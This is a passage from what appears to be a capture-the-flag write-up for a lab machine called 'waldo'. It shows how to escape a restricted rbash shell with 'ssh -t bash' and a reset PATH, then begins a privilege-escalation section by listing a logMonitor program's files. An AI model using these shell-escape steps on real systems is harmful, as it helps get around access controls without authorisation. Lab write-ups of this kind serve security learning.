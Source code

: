 I’ll need to set the path to something more reasonable, but that’s easy enough outside of `rbash`:

```

monitor@waldo:/$ export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```

#### Unintended Route: ssh -t

When you run ssh with the `-t` flag, it creates a pseudo-tty within the current session and runs the given command, exiting when the command completes. So if I use `-t bash`, I get a normal shell, skipping the `rbash` all together. I will need to set the `PATH` variable on getting in to make the shell functional:

```

waldo:~$ ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash
monitor@waldo:~$ cd /
monitor@waldo:/$ id
bash: id: command not found
monitor@waldo:/$ export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
monitor@waldo:/$ id
uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)

```

On the free servers, which had a lot of users going at once, this way was often given away because it shows up in the process list of the container, so once someone figured it out, it was obviously there for others to grab and use.

## Privesc: Full Disk Read as root

### logMonitor

In the monitor home directory, in the `app-dev` folder, there’s code and an executable for a program called `logMonitor`. Looking at the code, it will, depending on the flag passed in, read a log file, and output it to stdout.

```

monitor@waldo:~/app-dev$ find . -type f -ls
   656316     16 -r-xr-x---   1 app-dev  monitor     13706 May  3 16:50 ./v0.1/logMonitor-0.1
   656315     16 -r--r-----   1 app-dev  monitor     13704 May  3 16:50 ./logMonitor.bak
   655371      8 -rw-rw-rw-   1 monitor  monitor      6824 Aug  8 10:41 ./logMonitor.o
   656304      4 -r-xr-x---   1 app-dev  monitor       795 May  3 16:50 ./.restrictScript.sh
   656309      4 -rw-rw----   1 app-dev  monitor      2677 May  3 16:50 ./logMonitor.c
   656310      4 -rw-rw----   1 app-dev  monitor       488 May  3 16:50 ./logMonitor.h
   656311      4 -rwxr-----   1 app-dev  monitor       266 May  3 16:50 ./makefile
   655372     16 -rw-rw-rw-   1 monitor  monitor     13704 Aug  8 10:41 ./logMonitor
   655370   2168 -rw-rw-rw-   1 monitor  monitor   2217712 Aug  8 10:41 ./logMonitor.h.gch

```
